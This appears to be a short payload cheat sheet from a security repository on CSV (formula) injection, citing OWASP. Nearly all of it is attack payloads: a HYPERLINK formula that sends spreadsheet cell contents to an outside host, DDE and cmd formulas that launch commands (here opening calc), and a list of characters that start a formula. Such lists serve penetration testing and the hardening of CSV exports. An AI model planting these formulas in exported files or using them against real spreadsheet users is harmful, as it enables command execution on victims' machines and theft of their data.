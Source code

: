 # CSV_Injection

## Payload
```
=HYPERLINK("http://contextis.co.uk?leak="&A1&A2,"Error: please click for further information")
=DDE(server; file; item; mode)
=DDE("cmd";"/C calc";"__DdeLink_60_870516294")
=cmd|' /C calc'!A0
```
Any formula can be started with
```
=
+
–
@
```
## Reference: https://www.owasp.org/index.php/CSV_Injection
